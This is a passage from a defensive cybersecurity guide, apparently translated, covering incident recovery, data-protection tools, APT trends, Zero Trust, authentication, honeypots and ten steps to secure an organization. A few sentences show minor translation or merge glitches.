* **Quarantine**: Dynamic quarantine in computer security is similar to quarantine for infectious diseases. Particularly in the context of malware, preventing an infected computer from infecting other computers is an appropriate response.
* **Backtracking**: One critical aspect of an attack is the identity or location of the perpetrator. Unfortunately, finding an attacker in IP networks is almost impossible because:   
  - The source address in IP packets can be easily spoofed (spoofed)  
  - By their design, routers do not keep track of transmitted packets.  
  - Attackers can use a number of intermediary computers (called zombies) to carry out their attacks.

Agents are often innocent computers that are compromised by an exploit or malware and placed under the control of the attacker. In practice, it may be possible to trace an attack to the nearest agent, but it may be too much to expect to trace an attack to the actual attacker.

It is important to include recovery after an attack in the plan. This includes issues such as restructuring the network and closing the exploited vulnerability. It may take time to detect the entry point. In addition, an estimate of the damage must be made, such as what was taken or seized, whether it was malicious or not. If code is present on the affected system, consideration should also be given to how to most efficiently remove and clean it. If there is a virus in the company's email system, sending and receiving emails may be halted for days. If the attack files have been destroyed, how to reconstruct the network should be discussed. This will often require more than just reinstalling machines from archived backups. Various steps must be taken to speed up the recovery process and not impact analysis efforts. Regular review of the disaster recovery plan is necessary to ensure it meets current needs. It is important that this plan is representative of all departments and should address new threat notifications, software patches, updates, and employee turnover.

In our last layer, the data security layer, some systems are used to prevent a data breach. So what is the attacker's goal at this layer? and what will we do?


Data Protection

In the previous stages, the attacker has now recognized the corporate network and spread to many systems. Therefore, he was able to access the servers where the databases were located. Now his aim is to get this valuable data out and end the attack([Impact](https://attack.mitre.org/tactics/TA0040)-Mitre). A cyber attack can have many targets. But generally, ransomware has the effect of data breach and service interruption.

In our scenario, let's assume that bank users' credit card information is targeted. After the attacker accesses the databases and finds the relevant data, he must extract this data.

What do we do at this point? Let's talk about data security products:

* Data Encryption Software
* DLP(Data Loss Prevention)
* Backup and Recovery Solutions
* IAM(Identity and Access Management)

The purpose of these products is to control access to data, protect data and prevent data breach. Possible data losses are prevented with backup systems, data is protected with data encryption systems, violations are prevented with the DLP system, and access to data is controlled with the IAM system.

Although these systems are configured correctly, they are not insurmountable like the network security and endpoint security products we mentioned before. An attacker can evade DLP by escaping small amounts of data. It can crack the encrypted data it receives, even if it is a hassle. It can even destroy data in backup systems. And he can finish his attack.

---

## Chapter 7: Looking Ahead: Transitioning from Reactive Reflex to Proactive Strategy

This concluding section will synthesize findings from actor profiles to provide a high-level strategic overview of the current and future threat landscape.

* **Priority of Identity:** A clear and general trend is a shift from malware-centric attacks to identity-based infiltrations. Adversaries focus on capturing valid credentials through phishing, password spraying, and social engineering to "log in" rather than "break."
* **The Rise of the "Hacktivist" Identity:** Nation-states, particularly Russia and Iran, are increasingly using fake hacktivist groups as a tool for plausible deniability and to strengthen their influence operations.
* **Using Supply Chain and Trusted Relationships as Vectors:** Sophisticated actors such as APT29 (SolarWinds) and APT10 (Cloud Hopper) have demonstrated the high-impact potential of hijacking software vendors and MSPs to gain access to multiple downstream targets.
* **Blurring the Lines Between Espionage and e-Crime:** The dual mission profiles of groups like APT41 (China) and the entire North Korean cyber apparatus demonstrate that espionage and financial gain motivations are no longer mutually exclusive.

* **Adopt a Zero Trust Mindset:** With attacks focused on identity and "using local tools", traditional perimeter defenses are no longer relevant. Defenses should be built on the principle of "never trust, always verify."
* **Strengthen the Identity Perimeter:** This includes implementing Multi-Factor Authentication (MFA) that is resistant to phishing attacks, eliminating legacy authentication protocols, and implementing robust Identity and Access Management (IAM) and Privileged Access Management (PAM) controls.
* **Develop Sophisticated Detection Engineering:** Defenses must move beyond signature-based detection and focus on behavioral analytics (UEBA) to identify anomalous behavior associated with compromised accounts and malicious use of legitimate tools.
* **Integrate and Correlate Threat Intelligence:** As the naming confusion demonstrates, organizations cannot rely on a single source of intelligence. A key capability is the ability to ingest, correlate and resolve conflicts with intelligence from multiple providers to create a comprehensive operational picture of the threat landscape.

APT groups continue to pose a persistent and dynamic threat to international relations and national security. Countering these threats requires in-depth and continuous threat intelligence work, which requires not only establishing technical defense mechanisms but also understanding actors' motivations, strategic goals and evolving tactics.

### 7.1. Zero Trust Mindset


<div style="background: rgba(16, 185, 129, 0.05); border-left: 4px solid #10b981; padding: 15px; margin: 20px 0; border-radius: 6px;">
  <strong style="color: #10b981; font-size: 1.1em;">✅ Zero Trust Maturity Checklist</strong>
  <ul style="margin: 8px 0 0 0; padding-left: 20px; font-size: 0.95em; line-height: 1.6; color: #9ca3af;">
    <li><strong>Never Trust, Always Verify:</strong> No device or user inside the network is automatically trusted.</li>
    <li><strong>Least Privilege Access:</strong> Users must only have access rights required for their specific role.</li>
    <li><strong>Micro-segmentation:</strong> Networks should be split into small cells to prevent lateral movement.</li>
    <li><strong>Continuous Monitoring & Analysis:</strong> Every authentication, device health state, and request is inspected dynamically.</li>
  </ul>
</div>


### 7.2. Fortifying the Identity Perimeter

Traditionally, users, also known as employees, have been the weakest link in a company's defense armor. While they are essential to the organization, they can be a nightmare waiting to happen to your network. How do you allow them to operate within the network while controlling their access to resources? You should make sure that your user authentication system knows who your users are.

Authentication is simply proving that a user's identity claim is valid and genuine. Authentication requires some form of "proof of identity." With network technologies, physical evidence (like a driver's license or other photo ID) cannot be used, so you must obtain something else from the user. This usually means that the user must respond to a challenge to provide real credentials at the moment the user requests access.

For our purposes, credentials can be something the user knows, something they have, or something they are. Once authentication is established, there must also be authorization or login permission. Finally, you want to keep a record of users' logins to your network–username, login time, and resources. This is the accounting side of the process.

This refers to a user's natural characteristics that are difficult to replicate. Examples include:

* **Fingerprint:** Unique patterns on a person's fingertips.
* **Facial Recognition:** Distinctive facial features.
* **Voice Recognition:** Unique voice patterns.
* **Iris Recognition:** Complex patterns of the iris in the eye.

Users often use personal information such as birthdays, anniversaries, first cars, etc. for authentication purposes. However, they do not realize that this information is insecure. This refers only to information that the user should have. It is the most common form of authentication, but it is also the most vulnerable to breaches. examples**:**

* **Passwords:** Secret character combinations.
* **PINs (Personal Identity Numbers):** Numeric codes.
* **Security Questions:** Answers to personal questions.

This type of information is used as hard passwords and PINs in network technologies because they are easy to remember. However, for a password or PIN to be secure, certain conditions are required, such as a minimum number of characters or a mixture of letters and numbers. To reduce costs, some organizations allow users to set their own passwords and attempt to provide access with these weak credentials. However, fixed passwords can be guessed andIt may cause more information that the user already needs to remember. For any security system to be effective, stronger authentication is required.

This category includes physical objects or digital tokens owned by a user. These can be:

* **Smart Cards:** Physical cards with embedded microchips.
* **Security Tokens:** Devices that generate one-time passwords.
* **Mobile Phones:** Used to receive authentication codes or for biometric authentication.
* **Digital Certificates:** Electronic credentials that verify identity.

The most secure way to identify users is a combination of (1) a hardware device they own that is "known" to an authentication server on your network and (2) what they know. A number of devices available today — tokens, smart cards, biometric devices — are designed to identify a user more positively. Since in my opinion a good token is the safest of these options, I focus on them here.

**Token** is a device using an encryption algorithm and is recognized by the network's authentication server. There are two types of tokens: software and hardware. While software tokens can be installed on a user's desktop or mobile devices, hardware tokens come in different forms, and some work with just a button while others have a more elaborate keypad. Tokens can be easily deactivated if lost or stolen. Tokens generate one-time passwords (OTP), meaning they provide a valid password for every login attempt. Tokens can be programmed on-site or by vendors using programming software. After the programming process is completed, a file containing information about the token and its serial number is transmitted to the authentication server. Tokens are assigned by associating the serial number with the user.

Authorization is independent of authentication. A user may be allowed into the network but may not be authorized to access a resource. You wouldn't want an employee to have access to HR information or a corporate partner to confidential or proprietary information.  
Authorization requires a set of rules that determine the resources a user can access. These permissions are determined in your security policy

Let's assume that our user is granted access to the requested resource. But you want (or in some cases need to have) the ability to call up and view activity logs to see who accessed which resource. This information is mandatory for organizations that handle users' financial or medical information or DoD confidential information, or are undergoing annual audits to maintain certification for international operations.

Accounting means recording, logging and archiving of all server activity, particularly activity related to access attempts and whether they were successful or not. This information should be recorded in audit logs that are stored and available for viewing at any time or whenever you need to view them. Logs must contain at least the following information:

* Identity of the user
* Date and time of the request
* Whether the request passed authentication and was accepted

Any network security system you implement should retain or archive these logs for a specified period of time and allow you to determine how long these archives will be preserved before they begin exiting the system.

Going forward, it is important to keep up with constant developments in the field of network security to avoid being left behind. These advances include new systems for addressing threats through a smarter and more autonomous process, and developing and configuring faster and easier ways to keep threat files up to date. Additionally, customization of access rules, authentication requirements, and user role assignments provides significant flexibility. In this process, it is important to subscribe to newsletters, attend seminars and security fairs, read white papers and get support from network security experts if needed. The price to pay for not cutting corners and staying ahead in terms of security is a security breach or security breach.will be less than the cost resulting from negligence.

### 7.3. Threat Hunting and Honeypot Culture

The basic idea of a honeypot is to learn about attacker techniques by attracting attacks against a seemingly defenseless computer. It is essentially a forensic tool rather than a line of defense. A honeypot can be used to gain valuable information about attack methods used elsewhere or about imminent attacks before they happen. Honeypots are routinely used in research and production environments.

A honeypot has more specific requirements than a regular computer. First, a honeypot mIt should not be used for legitimate services or traffic. As a result, any activity seen by the honeypot will be illegitimate. For example, although honeypots generally record little data compared to IDSs, there is very little "noise" in their data while the bulk of IDS data is generally uninteresting from a security perspective.

Second, a honeypot must have comprehensive and reliable capabilities to monitor and record all activities. The forensic value of a honeypot depends on the detailed information it can capture about attacks.

Third, a honeypot must be isolated from the actual network. Since honeypots are intended to attract attacks, there is a real risk that the honeypot will be hijacked and used as a launch pad to attack more computers on the network.

Honeypots are generally classified according to their level of interaction, from low to high. Low-interaction honeypots like Honeyd provide simple services. An attacker could try to compromise the honeypot, but he wouldn't gain much. Having limited interactions creates the risk that the attacker will discover that the computer is a honeypot. At the other end of the range, highly interactive honeypots behave more like real systems. They have greater ability to engage an attacker and record activities, but provide greater gain when compromised.

### 7.4. Ten Steps to Building a Secure Organization

Having identified the key challenges in building a secure organization, let us now examine 10 essential steps to achieving a solid and defensible security posture. The following steps will guide organizations of any size toward robust network security.

#### 1. Assess Risks and Threats

Where should you begin when trying to build a secure organization? A common belief is that you must first identify your assets and allocate security resources based on the value of each asset. While this approach is effective, it can lead to significant vulnerabilities. For instance, an infrastructure asset might not have a high standalone value, but it must be protected with the same level of effort as a high-value asset. Otherwise, it could become an entry point into your network, providing access to valuable data.

Another approach is to begin by assessing the threats to your organization and its data.

The first place to start is to identify risks based on an organization's infrastructure model. What is the infrastructure necessary to support the operational needs of the business? A small business operating out of a single office faces fewer risks compared to an organization operating across multiple facilities, with a mobile workforce using various handheld devices, and offering products or services through a web-based interface. An organization with many remote workers must take steps to protect its private information, which could potentially reside on personal computers outside of corporate control. A widely dispersed organization with diverse systems will have a greater potential for risk than a centralized organization using uniform systems.

Are there specific threats to your business? Have senior executives been accused of inappropriate activities that would motivate shareholders or employees to attack the business? Are there individuals harboring grudges against the company due to real or imagined slights or accidents? Does the community have a history of hostility toward the organization? A risk management or security team should ask these questions regularly to assess risks in real time. This part of the security process is often neglected due to the focus on daily workloads.

Businesses in certain industries are targeted more frequently and dedicatedly than those in other sectors. Financial institutions and online retailers are targeted because 'that's where the money is.' Pharmaceutical manufacturers may be targeted to steal intellectual property, but they can also be targeted by special interest groups, such as those who oppose animal testing.

**Global Threats**

Businesses often focus so narrowly on their local domain that they forget that once they have a network connected to the internet, they are connected to the rest of the world. If malware detected on the other side of the globe targets the same software used in your organization, you can be sure that you will eventually be affected by that malware. Furthermore, if extremist groups in other countries are targeting your industry, you will also be targeted.

Once threats and risks have been identified, you can take one of four actions:

* **Ignore the risk**. This is never an acceptable response. It is simply burying your head in the sand and hoping the problem goes away—the business equivalent of not wearing a helmet while riding a motorcycle.
* **Accept the risk**. When the cost of eliminating a risk outweighs the risk itself, an organization will often decide to accept it. This is a viable option as long as the organization has spent the necessary time to assess the risk.
* **Transfer the risk**. Organizations with limited staff or other resources may decide to transfer the risk. One method of transferring risk is to purchase specialized insurance targeting a specific risk.
* **Mitigate the risk**. Most organizations mitigate risk by using appropriate resources to minimize the risks to their networks.

For organizations seeking to identify and measure the risks to their networks and information assets, CERT offers a free suite of tools to assist with the project.

Another risk assessment tool that can be helpful is the **Risk Management Framework** (RMF) tool.

#### 2. Beware of Common Misconceptions

When addressing an organization's security needs, it is common for professionals to fall prey to some very widespread misconceptions. Perhaps the most common misconception is that the business is obscure, simple, or boring—meaning it is not a target for malicious activity. Businesses must understand that, regardless of the type of enterprise, any network connected to the internet is a potential target.

Attackers attempt to gain access to a network and its systems for various reasons. The first is simply to look around and see what they can find. No matter the type of business, personnel information will likely be stored on one of the systems. This includes Social Security numbers and other personal data. Such information is always a target.

Another possibility is that the attacker modifies the information they find or reconfigures systems to behave abnormally. These types of attackers are not interested in financial gain; they are simply the technological equivalent of teenagers soaping windows, egging cars, and toilet-papering properties. They attack because they find it fun to do so. Furthermore, these attackers can use compromised systems to store stolen data, such as credit card numbers or child pornography. If a system is not secure, attackers can store such materials on your system and access them at their convenience.

The final possibility is that an attacker uses compromised systems to launch attacks against other unprotected networks and systems. Computers can be used to launch Denial of Service (DoS) attacks, distribute spam, or propagate malware. Simply put, no computer or network is immune to attack.

Another common misconception is that an organization is immune to problems caused by its own employees, i.e., 'We trust all our employees, so we don't need to focus our energy on protecting our assets from them.' While this is common in small businesses where the owners know everyone, it is also seen in larger organizations where companies believe they only hire 'professionals.' It is important to remember that no matter how well job candidates present themselves, a business can never know everything about an employee's background. Therefore, it is crucial for businesses to conduct pre-employment background checks for all employees. Furthermore, it is important that these background checks are conducted properly and thoroughly.

Another common misconception relates to information technology professionals. Many companies pay high salaries to IT staff because they understand that having a properly functioning technical infrastructure is crucial to the company's ongoing success. Because the staff is skilled in setting up and maintaining systems and networks, there is a general assumption that they know everything there is to know about computers.
While an individual may be highly knowledgeable and technologically advanced, it is important to recognize that no one knows everything about computers. Because management does not understand technology, they are not in a good position to evaluate the depth of a person's knowledge and experience in the field. Decisions are often based on the certifications an individual has obtained throughout their career. Although certifications can be used to gauge a person's competency level, too much weight is often placed on them. Many certifications require little more than some time and dedication to study and pass an exam. Some training companies even offer boot camps that guarantee a person will pass a certification exam. It is possible for people to obtain certifications without any real-world experience with the operating systems, applications, or hardware addressed by the certification. When evaluating a person's competence, look first at their level of experience and background. If the individual has significant real-world experience in addition to obtaining certifications, then the certification is likely a reflection of the employee's true capabilities.

#### 3. Provide Security Training to IT Staff — Now and Always

Just as implementing a robust and secure environment is a dynamic process, building a highly skilled staff of security professionals is also a dynamic process. While an organization's technical infrastructure may not change frequently, it is crucial to keep in mind that new vulnerabilities are discovered regularly and new attacks are launched constantly. Additionally, very few organizations have a static infrastructure; employees continually request new software, and more technology is added in an effort to increase efficiency. Each new addition potentially introduces additional vulnerabilities.

It is important for IT staff to be prepared to identify and respond to new threats and vulnerabilities. For those wishing to gain a deep understanding of security, starting with a vendor-neutral program is recommended. A vendor-neutral program is one that focuses on concepts rather than specific products. The SANS (SysAdmin, Audit, Network, Security) Enstitüsü offers two introductory programs: Introduction to Information Security (Security 301), a five-day class designed for individuals new to the security field, and SANS Security Essentials Bootcamp (Security 401), a six-day class designed for those with some security experience. Each class is also available as a self-study program, and each can be used to prepare for a specific certification.

Another option is to start with a program that follows CompTIA Security+ certification requirements, such as Global Knowledge's Essentials of Information Security. Some universities offer similar programs.

Once an individual has a solid foundation in security, they should undergo vendor-specific training to apply the concepts learned to specific applications and security devices.

Arguably one of the best ways to determine if an employee has a strong grasp of information security concepts is whether they hold the Certified Information Systems Security Professional (CISSP) credential. For this certification, candidates are tested on their understanding of the following 10 domains of knowledge:

* Access control
* Application security
* Business continuity and disaster recovery planning
* Cryptography
* Information security and risk management
* Legal, regulations, compliance, and investigations
* Operations security
* Physical (environmental) security
* Security architecture and design
* Telecommunications and network security

What makes this certification so valuable is that the candidate must have at least five years of professional experience in the field of information security, or four years of experience and a college degree. To maintain the credential, a certified individual must participate in 120 hours of continuing professional education during the three-year certification cycle. This ensures that CISSP holders remain current with the latest trends in security. The CISSP certification is maintained by (ISC)².

#### 4. Think 'Outside the Box'

For most businesses, the threat to their intellectual assets and technical infrastructure comes from 'bad guys' sitting outside their organization, trying to get in. These organizations establish strong perimeter defenses, essentially 'encircling' their assets. However, internal employees have access to private information to perform their jobs and often disperse this information to areas that are no longer under the employer's control. This dissemination of data is usually not done with malicious intent; it simply ensures that employees can access data to carry out their work responsibilities more efficiently. This also becomes an issue when an employee leaves the company (or when an active employee loses an item like a laptop where private information is stored) and the organization takes no steps to retrieve or control the private information in the former employee's possession.

One of the most overlooked threats to intellectual property is the harmless and now ubiquitous USB Flash drive. It is a very convenient way to transfer data between computers.

These devices are not the only threat to data. Since other devices can also be connected to a computer via the USB port, digital cameras, MP3 players, and external hard drives can now be used to remove data from a computer and its connected network. Most people recognize that external hard drives pose a threat, but they do not view other devices as threats.

Fortunately, Microsoft Windows tracks devices connected to a system in a Registry key named `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Enum\USBStor`. It can be interesting to look at this key on your own computer to see what types of devices have been connected.


*Windows Registry — the HKLM\SYSTEM\CurrentControlSet\Enum\USBSTOR key records every USB device ever connected.*


Identifying Connected USB Devices in the USBStor Registry Key

The figure shows a wide variety of devices connected to a system, including USB Flash drives, a digital camera, and several external hard drives.

Another way data can leave an organization's control is through the use of online data storage sites. These sites allow data to be transferred from a computer to a location accessible via the internet. Many of these sites provide 5 GB or more of free storage space. While it is certainly possible to blacklist these sites, there are so many of them, and more are developed regularly, that blocking access to all of them is difficult, if not impossible.

#### 5. Train Employees: Develop a Culture of Security

One of the greatest security assets is a business's own employees—but only if they are properly trained to comply with security policies and identify potential security issues.

Many employees do not understand the importance of various security policies and practices. As mentioned earlier, they view these policies as nothing more than an inconvenience. Gaining employee support and commitment takes time, but it is time well spent. Start by carefully explaining the reasons behind any security implementation. While one reason might be to maintain employee productivity, focus primarily on security concerns. Downloading and installing unauthorized software can install malicious payloads that infect user systems, causing their computers to run slowly or fail completely.

Perhaps the most direct way to gain employee buy-in is to inform them that the money required to respond to attacks and troubleshoot user-initiated problems is money that cannot be used for raises and promotions. Letting employees know they now have 'skin in the game' is a way to involve them in security efforts. If a budget is allocated for responding to security incidents and employees help keep expenses under budget, the difference between actual expenditures and the budget can be shared among employees as bonuses. Not only will employees be more likely to speak up when they notice network or system slowness, but their likelihood of confronting strangers wandering around the facility will also probably increase.

The goal of these activities is to encourage employees to proactively approach management or the security team. When this begins to happen regularly, you will have expanded the capabilities of your security team and created a much more secure organization.

#### 6. Identify and Use Built-in Security Features of Operating Systems and Applications

Many organizations and system administrators state that they cannot build a secure infrastructure because they have limited resources and lack the funds to purchase robust security tools. This is an absurd approach to security because all operating systems and many applications contain security mechanisms that require no organizational resources other than the time to identify and configure them. For Microsoft Windows operating systems, a terrific resource is the Microsoft Learn platform. [https://learn.microsoft.com/en-us/security/](https://learn.microsoft.com/en-us/) You can access the guide developed for Windows Server 2022 at the following link: <https://info.microsoft.com/rs/157-GQE-382/images/EN-WBNR-eBook-SRDEM134534ebook.pdf>

One of the greatest concerns in an organization today is data leakage—ways through which confidential information can leave an organization despite robust perimeter security. As mentioned previously, USB Flash drives are one cause of data leakage; another is the recovery of data located in the unallocated clusters of a computer's hard drive. Unallocated clusters, or commonly known as free space, represent the hard drive area where the operating system and applications discard remnants or leftover data. Although this data cannot be viewed through a standard user interface, it can be easily identified (and sometimes recovered) using a hex editor like WinHex.


WinHex Displaying the Contents of a Deleted Word Document

If a computer is stolen or donated, it is highly probable that someone will access the data residing in unallocated clusters. Consequently, many people struggle to find a suitable 'disk wiping' utility. While many such commercial tools are available, Microsoft Windows operating systems have a built-in one. The command-line utility `cipher.exe` is designed to display or alter the encryption of directories (files) stored on NTFS partitions. Very few people know about this command; even fewer are familiar with the `/w` switch. Here is an explanation of the switch from the program's Help file:

'Removes data from available unused disk space on the entire volume. If this option is chosen, all other options are ignored. The specified directory can be anywhere on a local volume. If it is a mount point or points to a directory on another volume, the data on that volume will be removed.'


Usage of Cipher

To use Cipher, click Start -> Run and type `cmd`. When the `cmd.exe` window opens, type `cipher /w:folder`, where `folder` is any folder on the volume you wish to wipe, and then press Enter. The figure shows Cipher wiping a folder.

Another source of data leakage is personal and editing information that can be associated with Microsoft Office files. In Microsoft Word, you can configure the application to remove personal information upon saving and warn you when you are about to print, share, or send a document that contains tracked changes or comments.

To access this feature, in Word, click Tools -> Options, and then click the Security tab. At the bottom of the Security window, you will see the two options described previously. Simply select the options you wish to use.

Implementing a strong security posture often begins with making the login process more robust. This includes increasing the complexity of the login password. Given sufficient time and resources, all passwords can be cracked, but the more difficult you make it to crack a password, the more likely the asset it protects will remain secure.

All operating systems contain mechanisms to increase password complexity. In Microsoft Windows, this can be achieved by clicking Start -> Control Panel -> Administrative Tools -> Local Security Policy. Under Security Settings, expand Account Policies, and then highlight Password Policy. In the right-hand panel, you can enable password complexity. Once enabled, passwords must contain characters from at least three of the following four groups:

* Uppercase characters (A through Z)
* Lowercase characters (a through z)
* Base 10 digits (0 through 9)
* Non-alphabetic characters (such as !, $, #, %)

It is important to know that all operating systems have embedded tools to assist with security. Finding them usually requires a bit of research, but the time spent identifying them is far less than the money spent purchasing additional security products or recovering from a security breach.

#### 7. Monitoring Systems

Even when the most robust security tools are in place, it is crucial to monitor your systems. All security products are human-made and can fail or be compromised. As with other aspects of technology, one should never rely on a single product or tool. Enabling logging on your systems is a way to position your organization to identify problematic areas. The question is, which logs should be recorded? There are some security standards that can assist in determining this. One such standard is the Payment Card Industry Data Security Standard (PCI-DSS). Requirement 10 of the PCI-DSS states that organizations must 'Track and monitor all access to network resources and cardholder data.' If you substitute 'confidential information' for 'cardholder data,' this requirement serves as an excellent approach for a log management program. Requirement 10 is derived here:

> Logging mechanisms and the ability to track user activities are critical. Having logs in all environments allows for thorough monitoring and analysis in the event that something goes wrong. Without system activity logs, determining the cause of a compromise is extremely difficult.

1. Establish a process for linking all access to system components (especially access made with administrative privileges such as root) to an individual user.
2. Implement automated audit trails for all system components to reconstruct the following events:
   - All individual user access to cardholder data (confidential information)
   - All actions taken by any individual with root or administrative privileges
   - Access to all audit trails
   - Invalid logical access attempts
   - Use of identification and authentication mechanisms
   - Initialization of audit logs
   - Creation and deletion of system-level objects
3. Record at least the following audit trail entries for each event across all system components:
   - User identification
   - Type of event
   - Date and time
   - Success or failure indication
   - Origin of the event
   - Identity or name of the affected data, system component, or resource
4. Synchronize all critical system clocks and times.
5. Secure audit trails so they cannot be altered:
   - Limit viewing of logs to those with a business need-to-know.
   - Protect log files from unauthorized modifications.
   - Promptly back up log files to a centralized log server or a difficult-to-alter medium.
   - For wireless networks, copy logs to a log server on the internal LAN.
   - Use file integrity monitoring and change detection software on logs to ensure that existing log data cannot be modified without generating an alert.
6. Review logs for all system components at least daily. Log reviews should include servers performing security functions such as intrusion detection systems (IDS) and authentication, authorization, and accounting (AAA) servers (e.g., RADIUS).
   Note: Log collection, parsing, and alerting tools (such as SIEM) can be used to facilitate compliance.
7. Retain audit trail history for at least one year.

Requirement 6 seems somewhat challenging, as few organizations have the time to manually review log files. Fortunately, there are tools that will collect and parse log files from various sources. All of these tools have the ability to notify individuals of specific events.

An even more detailed approach to monitoring your systems is to install a packet capture tool on your network, allowing you to analyze and capture traffic in real time. One tool that can be highly useful is Wireshark, 'an award-winning network protocol analyzer developed by an international team of network experts.' Wireshark is based on the original packet capture tool Ethereal. Analyzing network traffic is not a trivial task and requires training, but it is perhaps the most accurate way to determine what is happening on your network. The figure shows Wireshark monitoring traffic on a wireless interface.


Wireshark

#### 8. Hire a Third Party to Audit Security

No matter how skilled your staff may be, there is always a chance that they have overlooked something or misconfigured a device or setting. Therefore, bringing in an extra set of 'eyes, ears, and hands' to review your organization's security posture is critical.

Although some IT professionals may become paranoid about a third party auditing their work, smart staff will recognize that a security review by outsiders can be a wonderful learning opportunity. The advantage of having a third party inspect your systems is that external personnel have experience reviewing a wide variety of systems, applications, and devices across various industries. They will know what works well and what might work but could cause problems in the future. They are also more likely to be aware of new vulnerabilities and the latest product updates. Why? Because that is all they do. They are not bogged down by administrative tasks, internal company politics, and helpdesk requests. They will more objective than internal staff and will be in a position to make recommendations after their analysis.

A third-party analysis should involve a two-pronged approach: they should determine how the network looks to attackers and how secure the system is if attackers manage to breach the perimeter defenses. The external review, commonly referred to as penetration testing, can be performed in several ways. The first is an uninformed approach, where consultants are given absolutely no information about the network and systems prior to their analysis. While this is a highly realistic approach, it can be time-consuming and very expensive, as consultants using this method must rely on publicly available information to begin enumerating systems to test. While this is realistic, a partial-information analysis is more efficient and less costly. If a network topology diagram and a list of registered IP addresses are provided, third-party reviewers can complete the assessment more quickly, and the findings can be addressed in a much more timely manner. Once penetration testing is completed, the audit of the internal network can begin. The internal network audit will detect open shares, unpatched systems, open ports, weak passwords, rogue systems, and many other issues.

#### 9. Remember the Basics

Many organizations spend too much time and money on perimeter defenses while neglecting some basic security mechanisms.

* Change Default Account Passwords
* Use Strong Passwords
* Close Unnecessary Ports

#### 10. Patch, Patch, Patch

Almost all operating systems have a mechanism that automatically checks for updates. This notification system should be turned on. Although there is some debate about whether updates should be installed automatically, system administrators should at least be notified of updates. Since patches and updates are sometimes known to cause more problems than they solve, administrators may not want them to install automatically. A recent example of this is the CrowdStrike outage: <https://www.cnbc.com/2024/07/19/crowdstrike-outage-impact-8point5-million-windows-devices-microsoft-says-how-to-fix.html>

However, administrators should not wait too long before installing updates, as this exposes systems to unnecessary attacks.

**Do Not Use Administrator Accounts for Everyday Tasks**

A common security vulnerability occurs when system administrators perform everyday administrative or personal tasks while logged in with administrative privileges. Tasks such as checking email, browsing the internet, and testing suspicious software can expose the computer to malicious software. This means that malware could execute with administrative privileges, causing severe issues. Administrators should log into their systems using a standard user account to prevent malware from taking control of their computers.

**Restrict Physical Access**

When focusing on technology, it is often easy to overlook non-technical security mechanisms. If an intruder can gain physical access to a server or other infrastructure asset, they will own the organization's resource. Critical systems must be kept in secure areas. A secure area is one that allows control over access so that only people who need to access the systems as part of their job duties can do so. A room locked with a key given only to the system administrator, with the only backup copy kept in a safe in the office manager's office, is a good start. The room should not have any windows that can be opened. Additionally, there should be no labels or signs on the room indicating that it is a server room or network operations center. Equipment should not be stored in a closet accessible to other employees, custodians, or contractors. The validity of your physical security mechanisms should be reviewed during a third-party vulnerability assessment.

**Do Not Forget Paper!**

With the development of advanced technology, people have forgotten how information was stolen on paper in the past. Managing paper documents is relatively simple. Locked file cabinets should be used and kept locked at all times. Extra copies of private documents, document drafts, and expired internal communications are among the materials that must be shredded. A policy should be established instructing employees on what to do and what not to do with printed documents. The following example regarding the theft of trade secrets highlights the importance of protecting paper documents:

> Nahmias and FBI officials said a company security camera caught Coca-Cola employee Joya Williams shuffling through files at her desk and stuffing documents into bags. Officials said in June, an undercover FBI agent met with another of the defendants at the Atlanta airport, giving him $30,000 in a yellow cookie box in exchange for an Armani bag containing confidential Coca-Cola documents and a sample of a product the company was developing.

The steps to achieve security mentioned above are only a beginning. They should provide an idea of where to start building a secure organization.

Protecting the network from intrusions can be a challenging task. When faced with this type of threat, you are dealing with an enemy who may be outnumbered and poorly equipped, just like the cops on the street. This enemy may have increasingly sophisticated tools that can bypass even your best defenses. Therefore, no matter how good your defense is, you need to constantly keep up with developments. The most important way to be successful in network security is to take a logical, thoughtful and agile approach. This means keeping up with technological changes and staying current. It is also important to keep up with technical reports, seminars, security experts, and online resources that address different aspects of network security. It is also important to have a network security policy that is easy to understand. This policy ensures that all users consider their needs to best protect your network. It is also necessary to educate users about network security, because the more they know, the better they can help.

To protect against network intrusions, we must understand a variety of attacks, from exploits to malware to social engineering. Direct attacks are common, but a class of phishing attacks has emerged that rely on baits to lure victims to a malicious Web site. Phishing attacks are much harder to detect and somehow defend against. Almost anyone can become a victim.

Much can be done to strengthen computers and reduce the risks they are exposed to, but some attacks are inevitable. Defense in depth is the most practical defense strategy that combines layers of defense. While each layer of defense is flawed, the cost becomes more difficult for intruders to overcome.

As a result, no matter how strong security solutions we have, these products may not be able to completely prevent the attack. However, it is obvious that it will delay it significantly. This creates a time cost for the attacker. Therefore, if the gain on the attacker's side is not worth the time cost, the attack will be deterred. Most importantly, regular monitoring by real experts is necessary to protect against cyber attacks.


### 7.5. Conclusion

Like the tedious prep work before painting a room, organizations need a good, detailed, and well-written security policy. It's not something to be rushed "just  
To be done, your security policy must be well thought out; in other words, 'the devil is in the details'. Your security policy is designed to get everyone involved in your network "thinking on the same page."

Politics is almost always a work in progress. It must evolve with technology, especially technologies that aim to sneak into your system. Threats will continue to evolve, as will the systems designed to keep them out.

A good security policy is not always a single document; Rather, it is a collection of policies that address specific areas such as computer and network use, authentication styles, email policies, remote/mobile technology use, and Web browsing policies. While it should be comprehensive, it should be written in a way that is easily understood by those it affects. Accordingly, your policy does not need to be overly complex. If you give new employees something the size of War and Peace and tell them they are responsible for knowing its content, you can expect to have ongoing problems maintaining good network security awareness. Keep it simple.


Security Standards

First, you need to prepare some policies that describe your network and its underlying architecture. A good start would be to start by asking the following questions:

* What types of resources need to be protected (user financial or medical data, credit card information, etc.)
* How many users will access the network from inside (employees, contractors, etc.)
